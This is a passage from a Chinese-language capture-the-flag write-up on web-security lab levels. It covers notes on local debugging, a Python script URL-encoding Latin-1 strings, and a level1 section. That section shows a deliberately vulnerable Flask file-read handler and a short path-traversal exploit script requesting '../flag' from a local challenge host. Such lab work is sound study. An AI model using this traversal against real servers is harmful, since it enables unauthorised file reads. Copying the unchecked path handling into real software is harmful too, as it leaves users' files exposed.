 ![20240707103454](https://laboratory-1304292449.cos.ap-nanjing.myqcloud.com/note/20240707103454.png)

然后hacker那边也可以正确接收。

![20240707103717](https://laboratory-1304292449.cos.ap-nanjing.myqcloud.com/note/20240707103717.png)

#### 3.3 关于调试

这些题目是我在本地进行调试之后才发现的解决方案。虽然这个过程不是真实的攻击环境，但秉承着学习知识的态度，这种方式确实最有效最节约时间的。以后卡住了，不要死扣，开始本地调试，然后发现之前卡住的原因才是最关键的。


### 4. level15 

python中可以加载C语言的共享库，加载完成之后，C语言的共享库中的函数就可以像python函数一样进行调用。ctypes 是 Python 标准库中的一个模块，它提供了与 C 语言兼容的数据类型，并允许调用动态链接库（DLLs）或共享库（Shared Libraries）。ctypes 使得 Python 能够直接调用用 C 语言编写的库中的函数，这对需要高性能或特定平台功能的应用非常有用。

URL 参数中可以传递 Latin-1 编码的字符串，但需要对其进行 URL 编码以确保特殊字符不会导致传输问题。URL 编码将特殊字符转换为 % 后跟两个十六进制数字的形式。

```python
import requests
import urllib.parse

# 假设你有一些包含 Latin-1 特殊字符的字符串
latin1_string = "Hello, World! åäö"

# 将字符串编码为 Latin-1 字节串
latin1_encoded = latin1_string.encode('latin-1')

# 将字节串进行 URL 编码
url_encoded = urllib.parse.quote_from_bytes(latin1_encoded)

# 发送带有 URL 编码数据的请求
url = "http://challenge.localhost:1555/greet"
params = {"name": url_encoded}
response = requests.get(url, params=params)

# 打印响应
print(response.text)

```

对于字符串 "Hello, World! åäö"，Latin-1 编码后的字节串为：b'Hello, World! \xe5\xe4\xf6'

## level1
源码
```python
def level1():
    path = request.args.get("path")
    assert path, "Missing `path` argument"
    return (pathlib.Path(app.root_path) / path).read_text()
```

利用脚本：
```python
# level 1 
headers = {
    "host":'challenge.localhost',
}
file_path = "../flag"
response = requests.get('http://challenge.localhost:80/', headers=headers, params={"path": file_path})
print(response.text)
```
